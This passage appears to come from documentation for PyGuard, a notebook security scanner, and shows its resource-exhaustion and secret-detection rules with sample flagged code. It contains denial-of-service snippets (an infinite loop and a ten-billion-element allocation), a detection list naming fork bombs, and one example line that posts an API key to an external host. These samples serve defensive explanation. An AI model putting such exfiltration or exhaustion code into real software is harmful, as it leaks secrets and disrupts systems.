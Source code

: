 **Detects:**
- Infinite loops without timeouts
- Large memory allocations (10^10+ elements)
- Fork bombs
- Zip bomb extraction

**Example Vulnerable Code:**
```python
# Cell 8: CRITICAL - Resource Exhaustion
while True:  # Infinite loop - DoS risk
    process_data()
    
# Cell 9: HIGH - Memory Exhaustion  
huge_array = [0] * 10**10  # 10 billion elements - memory DoS
```

**PyGuard Detection:**
```
CRITICAL: Resource Exhaustion
- Infinite loop detected (DoS risk)
- Cell 8, Line 1
- CWE-400 | ASVS-5.2.5
- Confidence: 80%

HIGH: Resource Exhaustion
- Large memory allocation (memory exhaustion)
- Cell 9, Line 1
- CWE-400 | ASVS-5.2.5
- Confidence: 80%
```

## Advanced Features

### Entropy-Based Secret Detection

PyGuard uses Shannon entropy to detect high-entropy strings that may be secrets:

```python
# Detected via entropy (> 4.5) even without pattern match
config_key = "aB3xK9mNpQ7vY2wZ5tL8fR6hD4jG1sC0"  # High entropy base64-like string
```

### Cross-Cell Dataflow Analysis

Tracks variables across cells:

```python
# Cell 10
api_key = "sk-secret123"  # Detected as secret

# Cell 15 (later in notebook)
requests.post("https://external.com", data={"key": api_key})  # Detected as exfiltration using tracked secret
```
